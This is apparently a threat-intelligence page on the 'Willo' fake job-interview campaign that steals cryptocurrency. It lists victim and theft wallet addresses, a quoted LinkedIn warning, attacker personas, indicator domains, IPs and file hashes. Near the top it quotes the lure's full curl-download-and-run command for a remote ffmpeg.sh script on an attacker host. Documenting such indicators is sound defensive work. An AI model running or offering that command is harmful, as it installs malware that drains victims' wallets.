

# Willo

Date:: December 12th, 2024

Amount Stolen:: $64,020

Tags:: 🎙️ Contagious Interview

---

## Details - Victim 1

`curl -k -o /var/tmp/ffmpeg.sh https://api.nvidia-release.org/ffmpeg-ja.sh && chmod +x /var/tmp/ffmpeg.sh && nohup bash /var/tmp/ffmpeg.sh >/dev/null 2>&1 &`

> Please follow this link to complete the interview: 

- `https://willointerview.com/invite/halliday`

- 0xdb874f638bacc20cb2e00d2eeedff10eddc2fd1f - Victim 1
- 5fYNK7XmGDVTTXajNVFdEYtyUgHwtA8aTqsNgxh3VNih - Victim 1
- BCPKcYy6GQFVMLpdFq8iLwYjHE4GEXvwM1jCpUrg6mU4 - Theft from Victim 1, SOL
- 0x66fe228806e3ce9fd06c8dbb9698014e8dc6ae56 - Theft from Victim 1, ETH BASE
- 0x2ecf64c21bba725a0ea4389a5c63b203806c84f5 - Theft from Victim 1, BSC
- 0x2ecf64c21bba725a0ea4389a5c63b203806c84f5 - Theft from Victim 1, BSC MEXC
- 0x2014f057ee83c419fa192ea4e7da0a1cfd7acc2b - Theft from Victim 1, BSC MEXC
- 0x8a1fb46e20842692abc960aedc93e4cb204487c3 - Theft from Victim 1, BSC MEXC
- GKYdVvus5SrsyrEKv9fJJ8FgttW9X1LY8iDqpcevH4yz - Theft from Victim 1, SOL OKX
- 0x4bfc7f21807ec10e5c07941fedfa400b735c8fdb - Theft from Victim 1, BASE ChangeNOW

## Details - Victim 2

- 0xf5a46FF0d81Aef7972Cb5f28243541CFF6D6fEb3 - Victim 2
- 0x0b4eCF28692614C10Deb7d8579F4878Be3Fd2DE9 - Victim 2
- H13Z8gS2QXzYV6s7CDXHsNd3YJr9Mp5jSi9THAYAzthb - Victim 2
- CFGUeyEFusERXKxNoXz3KhKku5tBKcBRSuGHQ7o8toG3 - Victim 2
- Fu9YWHCTX5pw1furkAXoceGje7GbFiV5Cik8WmhbRX5N - Victim 2
- ynpQ7Rwa4o6DifA699ojVmMKq5J3r642KwBqMUX2LZq - Victim 2
- 7Mgi54ZagHM5oQY1ymJBMneHznsT3cy8PXJNNx7SwDe3 - Theft from Victim 2
- 0x03598ca1d28d6254aca2b734e5b8edac54bb5ac9 - Theft from Victim 2

## Details - Victim 3

- Linkedin / Kraken impersonation
- 8s625QRcb8q349p1evDsyzYJ7Npwkh9KfHY1s3XSztVF - Theft from Victim 3
- 0xbd848d23d3fce0acef833dfe43b6cb6e23d8f5c2 - Theft from Victim 3
- 0x62264db0e2cccd5f6895d5af407f395ac9334530 - Theft from Victim 3

## Details - Near Miss

> THEY TRIED TO SCAM ME ON LINKEDIN WITH A PHISHING ATTEMPT that would have surely emptied my Wallets. Don't be fooled by supposed job offers that are too good to be true 👇🏻

> How to identify these social engineering scam methods?

> What the scammer didn't know is that I noticed it from the beginning, because:

> 1. The company does not exist.
> 2. Your HR profile is not validated by anyone.
> 3. The company's supposed website is under maintenance.
> 4. They are in a hurry to hire because it is already December and the year is ending.
> 5. The description of the offer is clearly made with ChatGPT and their response when I shared my supposed CV was super mechanical.
> 6. Instead of providing a link to Zoom or Teams, he sends me a link to a platform that absolutely no one knows about.
> 7. The company description sells it as tech but then looking for the supposed employees (with African features, and don't misunderstand this)
> Several people appear who say they work there but say it is a security company.

> Anyway, always do your research, don't open any suspicious links and never download any files or programs.

- https://x.com/criptolawyer/status/1866572688271036485

- https://x.com/criptolawyer/status/1866572688271036485/video/1

## Details - Victims 5 + 6

- 0xf8b838f83f355f940e2489bf1cebe366d40b8304 - Victim Dec 13
- 0x688911c3d5c84cf9b9a13e8eb12682c059c462f7 - Victim Dec 18
- 0x532bbd2ebf638fa90d9f58a9660502f493713cbf - Victim Nov 28
- 0xb418b0687f89a44eb58ce40683fbde4d25f829de - Victim Dec 19 
- 0xfd5021b332fdec8d3c7454e518fca81a3cf5d74d - Victim 5 Dec 19
- 0x4838f0e6e93dfd14f8c25a49656457af208a225c - Victim 5 Dec 19
- 0x2107b55fac26916f048f355b4f3d3746dc20fc0e - Victim 5 Dec 19
- 0xb0270b52a656d59dc5633d849e8fbe9ed91f13f0 - Victim 6 Dec 11
- 0x91fd3c7e11e7f53a3a556b702100b55970e55c3c - Victim 6 Dec 11
- 0xced0009d09a0b94a8a0281fc69ea7b2381b644d6 - Victim 6 Dec 11
- 0x8eb9c24e487aecbccb44518be091fc9361eb5061 - Victim 6 Dec 11
- 0xf23da27550ca4dab19a2dcab1dba36d036d0c38e - Theft from Victim 5 + 6

## Details - Jan 9 Theft

- 0x22c979e7adb5be446100dcf4d36ccd2f301ad80b - Victim
- 0x6adfed1472744c2ca01f571c3d7c7ebde66a6d9e - Theft

## Hunting

- https://app.validin.com/detail?find=%3A%3A%22og%3Adescription%22%3A%22description%22%3A%22Willo%20is%20a%20platform%20for%20structured%2C%20asynchronous%2C%20video%20creation%20and%20sharing.%20We%20help%20organisations%20everywhere%20discover%20and%20connect%20with%20more%20people.%22&type=raw&ref_id=a33de82ac6e#tab=host_pairs (# 2024-12-28)
- https://github.com/stamparm/maltrail/blob/master/trails/static/malware/apt_lazarus.txt#L3908-L4024
- https://mp.weixin.qq.com/s?__biz=MzUyMjk4NzExMA==&mid=2247505438&idx=1&sn=cf1947c7af6581f4a66460ae6d14dc2f
- https://urlscan.io/search/#hash%3A6b7038bab8c410aeb6714e1d98d609a61b6dc3e418a6b5c74a17f2d6d6cb4aaf
- https://www.virustotal.com/gui/file/33be1a646e5ed46aa707455637e2116715592d1ef63feafb0fd2f66c872a634d/detection    
- https://www.virustotal.com/gui/file/a803c043e12a5dac467fae092b75aa08b461b8e9dd4c769cea375ff87287a361/detection
- https://www.virustotal.com/gui/file/d05f805d172583f1436eac2cfddcc5413ef6be0b37eda98ebca0cb0cfae8ad9e/detection
- https://www.virustotal.com/gui/ip-address/162.254.39.9/relations

- https://x.com/banthisguy9349/status/1873329177312875005
- https://x.com/banthisguy9349/status/1873330847472107876
- https://x.com/banthisguy9349/status/1873335917039255557
- https://x.com/banthisguy9349/status/1873338361928466759
- https://x.com/banthisguy9349/status/1873348678540493273
- https://x.com/dimitribest/status/1873024742690857009
- https://x.com/dimitribest/status/1873343968894689472
- https://x.com/dimitribest/status/1873367811822903765
- https://x.com/lazarusholic/status/1873360845939621945
- https://x.com/StrikeReadyLabs/status/1873173874738880943
- https://x.com/StrikeReadyLabs/status/1873175327566119203
- https://x.com/StrikeReadyLabs/status/1873182889128673422
- https://x.com/StrikeReadyLabs/status/1873388149566747069
- https://x.com/tayvano_/status/1872980013542457802
- https://x.com/MalasadaTech/status/1873504113339871627

### Personas:

- Laura Rotta - https://www.linkedin.com/in/laura-r-480309340/
- Daniel Joseph Holyhead - https://www.linkedin.com/in/daniel-joseph-holyhead-a3011733a
- Marianne Totterdell
- Trevor Greer trevorgreer9312@gmail.com https://github.com/trevor9312 104.223.97.2 (Astrill), 91.239.130.102 (Astrill)

### URLs:

- `app.crypto-assessment/invite/cryptoTrader`
- `willointerview.com/invite/halliday`
- `willoassess.net/invite/Aweras`
- `web.videoscreening.org/invite/netherminddefi`
- `willointerview.com/invite/tforce`

- `216.74.123.191:22`
- `216.74.123.191:3001`
- `216.74.123.191:8080`
- `api.camera-drive.cloud`
- `api.jz-aws.info`
- `api.nvidia-drive.cloud`
- `nvidia-release.org`
- `nvidia-release.us`
- `api.nvidia-release.org/ffmpeg-ar.sh`
- `api.nvidia-release.org`
- `api.nvidia-release.us`
- `app.crypto-assessment.com`
- `app.hiringinterview.org`
- `app.hiringtalent.pro`
- `app.interviewnest.org`
- `app.videoscreening.org`
- `app.willo-interview.us`
- `app.willoassess.com`
- `api.willoassessment.com`    
- `app.willoassessment.com`
- `app.willocandidate.com`
- `app.willohiring.com`
- `app.willohiringtalent.org`
- `app.willomexcvip.us`
- `app.willorecruit.com`
- `app.willotalant.com`
- `app.willotalent.pro`
- `app.willotalent.us`
- `app.willotalent.xyz`
- `app.willotalentes.com`
- `app.willotalents.org`
- `app.wtalents.us`
- `blockchain-assess.com`
- `app.blockchain-assess.com`  
- `vid.blockchain-assess.com`      
- `camera-drive.cloud`
- `consensys.willoassessment.com`
- `cpanel.wtalents.us`
- `crypto-assessment.com`
- `d12rlkj8v5mwse.cloudfront.net`
- `d1yzmjg018adwf.cloudfront.net`
- `d20zx0lguyxj2p.cloudfront.net`
- `d3o9p0hkd7eul5.cloudfront.net`
- `dal-shared-22.hostwindsdns.com`
- `dal-shared-25.hostwindsdns.com`
- `dal-shared-37.hostwindsdns.com`
- `final.hiringtalent.pro`
- `fundcandidates.com`
- `gemini.crypto-assessment.com`
- `gemini.willoassess.com`
- `gemini.willohiring.com`
- `gemini.willohiringtalent.org`
- `geminiskill.willoassessment.com`
- `hiring.willoassessment.com`
- `hiringinterview.org`
- `hiringtalent.pro`
- `hyphen-connect.com`
- `interviewnest.org`
- `jz-aws.info`
- `mail.willomexcvip.us`
- `mail.wtalents.us`
- `sea-shared-10.hostwindsdns.com`
- `talent.willo-interview.us`
- `talentcompetency.com`
- `vid.willoassess.com`
- `videoscreening.org`
- `web.videoscreening.org`
- `werhiring.willomexcvip.us`
- `wiilotalent.com`
- `wilio-talent.net`
- `willo-interview.us`
- `willo-video.com`
- `willoassess.com`
- `willoassess.net`
- `willoassess.org`
- `willoassessment.com`
- `willocandidate.com`
- `willohire.com`
- `willohiring.com`
- `willohiringtalent.org`
- `willointerview.com`
- `willomexcvip.us`
- `willorecruit.com`
- `willotalant.com`
- `willotalent.pro`
- `willotalent.us`
- `willotalent.xyz`
- `willotalentes.com`
- `willotalents.org`
- `wtalents.us`

### Hashes:

- `logd` d05f805d172583f1436eac2cfddcc5413ef6be0b37eda98ebca0cb0cfae8ad9e
- `file.zip` 96e78074218a0f272f7f94805cabde1ef8d64ffb 
- `nodejs.zip` 86dea05a8f40cf3195e3a6056f2e968c861ed8f1 
- `ffmpeg.sh` `a803c043e12a5dac467fae092b75aa08b461b8e9dd4c769cea375ff87287a361`
- `ffmpeg.sh` `c6472eb993612db72ca50893a34137ba11173e60a1a4c028d4660a3f755d2490`
- `nvidia-real.zip` `nvidiaupdate.zip` - `e52118fc7fc9b14e5a8d9f61dfae8b140488ae6ec6f01f41d9e16782febad5f2`
- `VCam_arm64.zip` - `3405469811bae511e62cb0a4062aadb523cad263`
- `VCam_intel.zip` - `60ec2dbe8cfacdff1d4eb093032b0307e52cc68feb1f67487d9f401017c3edd7`

## Images

